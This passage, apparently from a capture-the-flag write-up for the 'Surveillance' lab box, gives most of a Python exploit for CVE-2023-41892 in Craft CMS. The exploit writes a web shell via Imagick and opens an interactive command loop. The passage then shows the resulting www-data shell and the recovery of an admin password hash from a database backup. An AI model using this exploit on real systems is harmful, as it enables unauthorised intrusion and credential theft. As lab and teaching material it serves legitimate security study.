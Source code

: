 ```python
    data = {
        "action": "conditions/render",
        "configObject[class]": "craft\elements\conditions\ElementCondition",
        "config": '{"name":"configObject","as ":{"class":"Imagick", "__construct()":{"files":"vid:msl:' + tmpDir + r'/php*"}}}'
    }
    response = requests.post(url, headers=headers, data=data)    

def shell(cmd):
    response = requests.get(url + "/cpresources/shell.php", params={"cmd": cmd})
    match = re.search(r'caption:(.*?)CAPTION', response.text, re.DOTALL)

    if match:
        extracted_text = match.group(1).strip()
        print(extracted_text)
    else:
        return None
    return extracted_text

if __name__ == "__main__":
    if(len(sys.argv) != 2):
        print("Usage: python CVE-2023-41892.py <url>")
        exit()
    else:
        url = sys.argv[1]
        print("[-] Get temporary folder and document root ...")
        upload_tmp_dir, documentRoot = getTmpUploadDirAndDocumentRoot()
        tmpDir = "/tmp" if "no value" in upload_tmp_dir else upload_tmp_dir
        print("[-] Write payload to temporary file ...")
        try:
            writePayloadToTempFile(documentRoot)
        except requests.exceptions.ConnectionError as e:
            print("[-] Crash the php process and write temp file successfully")

        print("[-] Trigger imagick to write shell ...")
        try:
            trigerImagick(tmpDir)
        except:
            pass

        print("[-] Done, enjoy the shell")
        while True:
            cmd = input("$ ")
            shell(cmd)
```
To get the shell, just run the exploit with the host's URL and a `www-data` shell is returned.
```markdown
python3 exploit.py http://surveillance.htb
[-] Get temporary folder and document root ...
[-] Write payload to temporary file ...
[-] Trigger imagick to write shell ...
[-] Done, enjoy the shell
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
Once inside the host, we find a mysql backup in `/var/www/html/craft/storage/backups/surveillance--2023-10-17-202801--v4.4.14.sql.zip`. Just unzip it and dump the contents, we find a hash for user `admin` (matthew), which looks like SHA-256.
```markdown
hashid 39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec
Analyzing '39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec'
[+] Snefru-256 
[+] SHA-256 
[+] RIPEMD-256 
```